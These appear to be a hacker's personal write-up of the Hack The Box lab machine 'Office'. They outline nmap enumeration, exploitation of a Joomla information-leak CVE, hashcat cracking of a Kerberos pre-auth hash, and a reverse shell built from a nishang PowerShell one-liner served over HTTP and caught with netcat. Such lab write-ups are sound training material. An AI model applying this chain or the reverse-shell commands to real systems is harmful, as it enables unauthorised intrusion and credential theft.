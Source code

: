 ip 10.10.11.3

# Enumeration:
### Nmap scan
nmap -p- -Pn --min-rate=5000 -vvv 10.10.11.3 
![[Pasted image 20240717221337.png]]

sudo nmap -p53,80,88,139,389,443,445,464,636,3268,3269,5985,9389 -A 10.10.11.3
![[Pasted image 20240717223654.png]]

from  http://office.htb/administrator/manifests/files/joomla.xml
jomla version  

searching for vulnerabilities in jomla version 4.2.7 found cve-2023-23752
searching for a exploit
found one in github

# CVE-2023-23752
![[Pasted image 20240718200848.png]]
a password found

![[Pasted image 20240718200722.png]]

![[Pasted image 20240718203352.png]]



![[Pasted image 20240718203235.png]]

![[Pasted image 20240718210231.png]]

wireshark
![[Pasted image 20240718210303.png]]
its using etype18 
so recreating the hash 
hash example  kerberos5 etype18 :


```

$krb5pa$18$hashcat$HASHCATDOMAIN.COM$96c289009b05181bfd32062962740b1b1ce5f74eb12e0266cde74e81094661addab08c0c1a178882c91a0ed89ae4e0e68d2820b9cce69770

```

using hascat 

![[Pasted image 20240718210003.png]]
new password found 
in templates 
![[Pasted image 20240718220256.png]]
edit offline.php 
then intercept with burpsuite
use nishang revsell 
 ```
cp /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 shell.ps1
edit shell.ps1
python3 -m http.server

```


![[Pasted image 20240718220230.png]]
nc -nlvp
![[Pasted image 20240718220418.png]]

and we r inside


[[HTB machines]]
